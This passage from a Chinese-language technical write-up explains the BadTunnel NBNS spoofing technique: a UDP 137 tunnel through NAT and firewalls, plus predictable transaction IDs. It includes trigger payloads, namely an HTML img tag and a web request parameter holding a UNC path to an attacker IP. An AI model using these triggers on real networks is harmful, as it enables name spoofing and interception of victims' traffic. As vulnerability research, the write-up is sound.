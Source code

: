 所以，假如我们能在NBNS发出名称解析请求的时候，从本网段之外返回一个回应，也同样会被NBNS接受，就可以实现跨网段NBNS Spoofing。但存在几个问题：

1、大多数主机都开启了防火墙，从本地网络之外主动向系统发送数据似乎是不可能的。即使不考虑防火墙，从互联网上主动向一个局域网IP发送数据似乎更是不可能的。也就是说只能对有公网IP又没有防火墙的系统进行NBNS Spoofing？

2、NBNS协议内部封装的几乎就是DNS报文，所以也有Transaction ID。只有Transaction ID匹配的回应包才会被接受。这个问题如何解决？

3、本地网络之外的主机接收不到NBNS NB query广播，又怎么知道该在什么时候发出NBNS Spoofing数据包？

幸运的是，这些问题都可以解决。

首先，Windows系统的NBNS使用且只使用137/UDP端口。“使用且只使用”的意思是：系统发起的NBNS通信，源端口和目标端口都永远是137/UDP。也就是说，如果一台内网的主机192.168.2.2向10.10.10.10发起NBNS查询请求，大概会是这样：

> 192.168.2.2:137 -> NAT:54231 -> 10.10.10.10:137

而10.10.10.10返回查询结果时会是这样：

> 192.168.2.2:137 <- NAT:54231 <- 10.10.10.10:137

也就是说，无论192.168.2.2的本机防火墙，还是NAT，还是中间的任何其它网络设备，只要允许查询请求发出，并允许查询结果返回，就至少需要在一段时间内，允许10.10.10.10:137发出任何UDP包到192.168.2.2:137。这其实就开启了一条双向UDP隧道。BadTunnel，指的就是这个Tunnel：

> 192.168.2.2:137 <-> NAT:54231<-> 10.10.10.10:137

有个简单的实验可以帮助你理解这个隧道。准备两台开启了防火墙的系统，IP地址分别是192.168.2.2和192.168.3.3：

首先在192.168.2.2上执行“`nbtstat -A 192.168.3.3`”，会失败。  
然后在192.168.3.3上执行“`nbtstat -A 192.168.2.2`”，会成功。  
再次在192.168.2.2上执行“`nbtstat -A 192.168.3.3`”，会成功。

那么怎么让192.168.2.2向10.10.10.10发出NBNS请求呢？当Windows系统试图访问一个带有IP地址的file URI scheme或UNC path时，如果目标IP地址的139、445端口不可访问（超时或收到TCP重置报文），系统会再向该IP地址发送NBNS NBSTAT query查询。而让系统访问file URI scheme或UNC path的途径太多了。

无论是Edge浏览器还是IE，都会试图解析页面中的fileURI scheme或UNC path：

```
<img src=”\\10.10.10.10\BadTunnel”>

```

所有类型的MS Office文档都可以嵌入file URI scheme或UNC path。还有很多第三方软件的文件格式也都可以。

特别是如果我们将任何快捷方式的图标设置为一个UNC path，只要这个快捷方式显示在屏幕上，系统就会试图访问UNC path。

而如果目标是一台Web服务器，可能只需一个HTTP请求：

```
http://web.server/reader.aspx?ID=\\10.10.10.10\BadTunnel

```

至于TransactionID，NBNS的Transaction ID并不是随机的，而是递增的。前面提到，NBNS解析名称时，会发出NBNS NB query；而系统访问file URI scheme或UNC path失败时，会发出NBNS NBSTAT query。NBNS NB query和NBNS NBSTAT query除了都使用且只使用137/UDP外，它们还共享同一个Transaction ID计数器。也就是说，当192.168.2.2访问`\\10.10.10.10\BadTunnel`失败，向10.10.10.10发出的NBNS NBSTAT query不但打开了一条双向UDP隧道，还将系统的Transaction ID计数器当前值告诉了10.10.10.10。

![](http://drops.javaweb.org/uploads/images/398e9a574f6b94a23c98f7db59bb5aaa50698575.jpg)

也就是说，一个NBNS NBSTAT query同时解决了第一个问题和第二个问题。而第三个问题就更容易解决了。我们既然能在网页中嵌入`<img src=”\\10.10.10.10\BadTunnel”>`，当然也可以同时嵌入：
